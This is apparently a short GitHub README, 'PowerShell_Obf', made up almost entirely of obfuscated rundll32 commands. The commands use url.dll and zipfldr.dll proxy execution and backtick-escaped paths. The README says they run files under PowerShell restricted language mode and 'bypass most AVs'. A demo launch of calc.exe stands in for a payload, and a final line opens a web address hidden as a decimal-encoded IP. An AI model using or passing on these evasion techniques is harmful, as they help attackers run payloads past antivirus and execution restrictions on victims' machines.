 # PowerShell_Obf

#Calling files in restricted language mode and bypass most AVs
rundll32 url.dll,FileProtocolHandler file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

#Call a web page via its decimal value
rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3
